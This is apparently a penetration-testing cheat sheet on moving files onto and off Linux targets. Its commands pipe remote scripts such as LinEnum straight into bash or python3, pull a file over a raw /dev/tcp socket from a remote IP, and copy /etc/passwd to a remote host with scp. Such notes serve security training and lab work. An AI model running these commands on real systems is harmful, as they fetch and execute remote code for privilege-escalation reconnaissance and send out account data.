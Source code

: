 ### Fileless Attacks Using Linux
1. **Fileless Download with cURL**
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
2. **Fileless Download with wget**
```bash
 wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
### Download with Bash(/dev/tcp)
1. **Connect to the Target Webserver**
```bash
exec 3<>/dev/tcp/13.13.13.13/80
```
2. **HTTP GET Request**
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
3. **Print the Response**
```bash
cat <&3
```
### SCP Download
`SSH` is a protocol that allows secure access to remote computers. And we could use `SCP`  utility which uses SSH protocol for transferring files
1. **Enabling the SSH Server**
```bash
sudo systemctl enable ssh
```
2. **Starting the SSH Server**
```bash
sudo systemctl start ssh
```
3. **Checking for SSH Listening Port**
```bash
netstat -lnpt
```
4. **Linux - Downloading Files Using SCP**
```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```
### SCP Upload
- **File Upload with SCP**
```bash
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
## Code File Transfers
### Python
1. **Python 2 - Download**
```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
2. **Python3 - Download**
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Upload Operations
1. **Starting the Python uploadserver Module**
```bash
python3 -m uploadserver
```